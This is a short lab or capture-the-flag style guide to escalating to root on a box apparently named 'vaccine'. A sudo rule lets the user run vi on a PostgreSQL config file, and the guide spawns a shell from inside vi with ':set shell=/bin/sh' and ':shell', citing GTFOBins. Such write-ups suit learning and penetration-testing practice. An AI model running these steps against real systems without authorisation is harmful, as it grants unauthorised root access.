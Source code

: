 # `sudo` exploitation
﷽
* guide on simple sudo exploitation.
[cheatsheet on `vi`](https://gtfobins.github.io/gtfobins/vi/#sudo)
## usage
### vi exploit
* after listing privileges with `sudo -l`, (example output):

  `User postgres may run the following commands on vaccine:
 (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf`

* we can see that we can use `vi` to edit `pg-hba.conf`.
  * If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

using `vi;:set shell =/bin/sh;:shell` we should obtain a shell, according to `GTFOBins.`

* make sure to open the `vi` binary as `sudo` to edit the file we are permitted to, like:
  * `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

* now, from inside the `vi` utility we can set the shell:
  `:set shell=/bin/sh`, 
* and open a shell using
  `:shell`
* verify with `whoami` to check if we are `root` and there we go :)

> [!NOTE]
> to switch to `bash` shell, just input `bash`.

* * Flags are usually found in `/root`.
